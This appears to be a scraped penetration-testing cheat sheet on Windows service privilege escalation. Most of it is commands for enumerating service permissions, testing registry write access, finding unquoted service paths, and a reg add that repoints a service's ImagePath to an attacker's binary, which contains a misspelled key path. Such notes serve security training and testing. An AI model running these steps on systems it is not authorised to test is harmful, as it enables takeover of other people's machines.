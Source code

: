 ```
sc getkeyname "service name"
```

check the required privilege level for each service.

```
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
```

check if you can modify registry entries of any services

```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services
​
#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a
​
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl. In that case you can change the binary that is going to be executed by the service.

To change the Path of the binary executed:

```
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

### <mark style="color:orange;">find all service executables</mark>

```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt
```

if wmic is not available :

```
sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

### <mark style="color:orange;">search for unquoted service paths</mark>

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
